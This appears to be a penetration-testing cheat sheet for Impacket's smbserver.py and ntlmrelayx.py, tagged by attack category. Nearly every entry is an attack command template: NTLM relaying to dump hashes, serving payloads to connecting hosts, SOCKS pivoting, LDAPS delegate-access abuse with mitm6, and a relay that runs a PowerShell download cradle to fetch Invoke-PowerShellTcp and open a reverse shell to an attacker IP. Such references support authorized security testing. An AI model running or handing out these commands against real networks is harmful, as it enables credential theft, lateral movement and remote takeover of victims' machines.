 # Impacket

## smbserver - share smb folder
#plateform/linux #target/serve #port/445 #protocol/smb #cat/ATTACK/LISTEN-SERVE 

A Python implementation of an SMB server. Allows to quickly set up shares and user accounts.

```
smbserver.py <shareName> <sharePath>
```

## smbserver - share smb folder with authentication
#plateform/linux #target/serve #port/445 #protocol/smb #cat/ATTACK/LISTEN-SERVE 

```
smbserver.py -username <username> -password <password> <shareName> <sharePath>
```

## ntlmrelay - host a payload that will automatically be served to the remote host connecting
#plateform/linux #target/serve #cat/ATTACK/MITM 

```
ntlmrelayx.py -tf <targets_file> -smb2support -e <payload_file|payload.exe>
```

## ntlmrelay - reverseshell (nishang)
#plateform/linux #target/serve #cat/ATTACK/MITM 
Or powershell -e base64_string
```
ntlmrelayx.py -tf <targets_file> -smb2support -c "powershell -c IEX(New-Object NET.WebClient).DownloadString('http://<ip>:<http_port>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <ip> -Port <rport>"
```

## ntlmrelay - socks
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
ntlmrelayx.py -tf <targets_file> -socks -smb2support
```

## ntlmrelay - authenticate and dump hash
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
ntlmrelayx.py -tf <targets_file> -smb2support
```

## ntlmrelay - to use with mitm6 - relay to target
#plateform/linux #target/serve #cat/ATTACK/MITM 
Next use the socks with proxychains : 
proxychains smbclient //ip/Users -U domain/user

```
ntlmrelayx.py -6 -wh <attacker_ip> -t smb://<target> -l /tmp -socks -debug
```

## ntlmrelay - to use with mitm6 - delegate access
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
ntlmrelayx.py -t ldaps://<dc_ip> -wh <attacker_ip> --delegate-access
```
